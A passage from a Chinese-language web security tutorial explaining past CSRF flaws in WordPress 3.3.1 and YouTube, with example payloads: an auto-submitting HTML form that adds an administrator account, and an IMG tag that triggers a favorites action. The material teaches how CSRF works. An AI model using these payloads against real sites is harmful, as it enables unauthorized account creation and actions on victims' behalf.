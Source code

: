 ##### WordPress 的 CSRF 漏洞

2012 年 3 月份，WordPress 发现了一个 CSRF 漏洞，影响了 WordPress 3.3.1 版本，WordPress 是众所周知的博客平台，该漏洞可以允许攻击者修改某个 Post 的标题，添加管理权限用户以及操作用户账户，包括但不限于删除评论、修改头像等等。具体的列表如下:

- Add Admin/User
- Delete Admin/User
- Approve comment
- Unapprove comment
- Delete comment
- Change background image
- Insert custom header image
- Change site title
- Change administrator’s email
- Change Wordpress Address
- Change Site Address

那么这个漏洞实际上就是攻击者引导用户先进入目标的 WordPress，然后点击其钓鱼站点上的某个按钮，该按钮实际上是表单提交按钮，其会触发表单的提交工作，添加某个具有管理员权限的用户，实现的码如下：

```html
<html>
  <body onload="javascript:document.forms[0].submit()">
    <h2>CSRF Exploit to add Administrator</h2>
    <form method="POST" name="form0" action="http://<wordpress_ip>:80/wp-admin/user-new.php">
      <input type="hidden" name="action" value="createuser" />
      <input type="hidden" name="_wpnonce_create-user" value="<sniffed_value>" />
      <input type="hidden" name="_wp_http_referer" value="%2Fwordpress%2Fwp-admin%2Fuser-new.php" />
      <input type="hidden" name="user_login" value="admin2" />
      <input type="hidden" name="email" value="admin2@admin.com" />
      <input type="hidden" name="first_name" value="admin2@admin.com" />
      <input type="hidden" name="last_name" value="" />
      <input type="hidden" name="url" value="" />
      <input type="hidden" name="pass1" value="password" />
      <input type="hidden" name="pass2" value="password" />
      <input type="hidden" name="role" value="administrator" />
      <input type="hidden" name="createuser" value="Add+New+User+" />
    </form>
  </body>
</html>
```

##### YouTube 的 CSRF 漏洞

2008 年，有安全研究人员发现，YouTube 上几乎所有用户可以操作的动作都存在 CSRF 漏洞。如果攻击者已经将视频添加到用户的“Favorites”，那么他就能将他自己添加到用户的“Friend”或者“Family”列表，以用户的身份发送任意的消息，将视频标记为不宜的，自动通过用户的联系人来共享一个视频。例如，要把视频添加到用户的“Favorites”，攻击者只需在任何站点上嵌入如下所示的 IMG 标签：

```html
<img
  src="http://youtube.com/watch_ajax?action_add_favorite_playlist=1&video_
id=[VIDEO ID]&playlist_id=&add_to_favorite=1&show=1&button=AddvideoasFavorite"
/>
```
